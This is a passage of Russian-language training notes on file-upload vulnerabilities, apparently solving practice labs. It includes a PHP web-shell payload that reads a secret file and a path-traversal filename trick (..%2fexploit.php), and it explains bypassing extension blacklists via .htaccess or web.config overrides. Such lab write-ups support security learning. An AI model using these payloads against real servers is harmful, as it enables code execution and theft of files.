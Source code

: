 Вы можете войти в свою учетную запись, используя следующие учетные данные: `wiener:peter`

#### Решение

загружаем `exploit.php`:
```
<?php echo file_get_contents('/home/carlos/secret');
```
в запросе меняем имя файла, а после кодируем `/` в URL:
```
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"

filename="..%2fexploit.php"
```
далее через поле поиска в браузере обращаемся к своему файлу:
```
.../files/avatars/../exploit.php
```

## Недостаточный черный список опасных типов файлов

Одним из наиболее очевидных способов предотвращения загрузки пользователями вредоносных скриптов является внесение в черный список потенциально опасных расширений файлов, таких как `.php`. Практика составления черных списков по своей сути несовершенна, поскольку сложно явно заблокировать все возможные расширения файлов, которые могут быть использованы для выполнения кода. Иногда такие черные списки можно обойти, используя менее известные, альтернативные расширения файлов, которые все равно могут быть исполняемыми, например `.php5`, `.shtml` и т. д.

### Переопределение конфигурации сервера

Как мы уже говорили в предыдущем разделе, серверы обычно не выполняют файлы, если они не настроены на это. Например, прежде чем сервер Apache будет выполнять PHP-файлы, запрошенные клиентом, разработчикам придется добавить следующие директивы в файл `/etc/apache2/apache2.conf`:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

Многие серверы также позволяют разработчикам создавать специальные конфигурационные файлы в отдельных каталогах, чтобы отменить или дополнить одну или несколько глобальных настроек. Серверы `Apache`, например, загружают конфигурацию конкретной директории из файла `.htaccess`, если таковой имеется.

Аналогичным образом разработчики могут настраивать конкретные директории на серверах `IIS` с помощью файла `web.config`. Он может включать такие директивы, как следующая, которая в данном случае позволяет обслуживать JSON-файлы для пользователей:
```
<staticContent>
	<mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>
```

Веб-серверы используют такие конфигурационные файлы при наличии, но обычно вам не разрешается обращаться к ним с помощью HTTP-запросов. Однако иногда встречаются серверы, которые не могут помешать вам загрузить свой собственный вредоносный файл конфигурации. В этом случае, даже если нужное вам расширение файла занесено в черный список, вы сможете обмануть сервер, сопоставив произвольное пользовательское расширение файла с исполняемым MIME-типом.

